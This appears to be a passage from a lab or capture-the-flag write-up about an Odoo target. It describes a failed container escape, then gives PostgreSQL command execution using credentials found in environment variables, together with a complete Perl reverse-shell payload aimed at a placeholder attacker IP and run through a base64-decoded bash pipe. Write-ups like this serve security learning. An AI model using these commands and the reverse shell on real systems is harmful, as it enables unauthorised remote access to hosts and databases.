 ## Container escaping

To save you some headache I spent hours trying to find ways using the mounted `/proc` to escape the container  
The **release_agent** technique doesn't work since the cgroup can't be mounted (permission denied)  
I went as far as compromising the host that the DBMS was running on with no luck

### Side-note - Postgresql RCE

If you look at the `odoo` user's environment variables the database credentials are all there and you can connect to the database using the command below:

```bash
psql -h 172.17.0.2 -U odoo -d main # I used --list to list all DBs and found `main` first
# Then enter the DB password in the environment variable
```

Now you can use this technique to run system commands within the postgresql DBMS:

```SQL
CREATE TABLE cmd(output text);
COPY cmd FROM PROGRAM 'id'; -- make sure you're using single-quotes
SELECT * FROM cmd;
```

![aaf75e0c2721cafa1bd2892c61bedc59.png](../_resources/aaf75e0c2721cafa1bd2892c61bedc59.png)

- Just to let you know, python is not on the target at all but perl is
- Here is a usefull perl reverse shell payload which you replace with the 'id' above:

```perl
use Socket;$i="<attacker ip>";$p=<attacker prt>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};
```

```SQL
-- I base64-encoded the above payload to avoid escaping every single-quote
-- Before encoding it I placed the payload like this: perl -e '<payload>'
-- The final payload/query is this:
COPY cmd FROM PROGRAM 'echo <base64_payload> | base64 -d | bash';
```

![31d706b75212b3f492d9623c759f25d9.png](../_resources/31d706b75212b3f492d9623c759f25d9.png)
